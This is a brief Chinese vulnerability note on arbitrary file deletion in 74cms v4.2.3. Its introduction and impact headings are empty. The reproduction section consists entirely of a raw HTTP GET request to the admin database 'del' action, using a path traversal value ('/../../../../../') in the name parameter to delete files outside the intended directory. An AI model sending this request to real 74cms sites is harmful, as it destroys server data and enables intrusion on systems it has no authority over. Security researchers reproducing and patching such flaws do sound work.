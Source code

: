 74cms v4.2.3 任意文件删除
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    GET /index.php?m=admin&c=database&a=del&name=/../../../../../ HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/index.php?m=admin&c=database&a=restore
    Connection: close
    Cookie: think_template=default; PHPSESSID=6d86a34ec9125b2d08ebbb7630838682; think_language=en
    Upgrade-Insecure-Requests: 1
